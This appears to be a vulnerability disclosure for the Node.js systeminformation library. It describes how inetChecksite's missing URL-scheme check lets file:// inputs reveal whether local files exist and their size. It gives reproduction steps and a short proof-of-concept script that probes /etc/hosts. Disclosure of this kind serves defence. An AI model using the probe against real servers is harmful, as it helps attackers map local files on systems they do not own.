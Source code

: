 # :dizzy: Description:
- Systeminformation Is a System Information Library for Node.JS. And It's Vulnerable To Local File Sizes Disclosure Via inetChecksite Function Due To Lack Of File Scheme Validation On The cURL Command. That Allows Attackers With Controlled Inputs To Disclose Files That Exists On The Local Server And It's Sizes By Detecting The Status Code That's Detected By Basic cURL Command Results.

# :ok_hand: Steps To Reproduce:
- Create New Nodejs Project Then Install systeminformation Using npm install systeminformation
- Create main.js Then Include This Code On It:

```javascript
var systemInformation = require('systeminformation');
systemInformation.inetChecksite('file:///etc/hosts').then(data => console.log(data));
```

- Run The Program Using: `node main.js` Then See The Output Status Code. It Will Be `/etc/hosts` File Size
- Use This Command: `ls -l /etc/hosts` To Get The `/etc/hosts` Size Then You Will Get That They're The Same

# :boom: Proof Of Concept:
- Here I Wrote a Simple Proof Of Concept Code That Proves That The Status Code is The Same as The fileSize On The Local System.

```javascript
var systemInformation = require('systeminformation');
var { exec } = require('child_process');

console.log("systemInformation Results:");
exec('ls -l /etc/hosts' , function(error , out) {
    if (error) {
        throw error;
    }

    console.log(out);
})
systemInformation.inetChecksite('file:///etc/hosts').then(data => console.log(data));
```
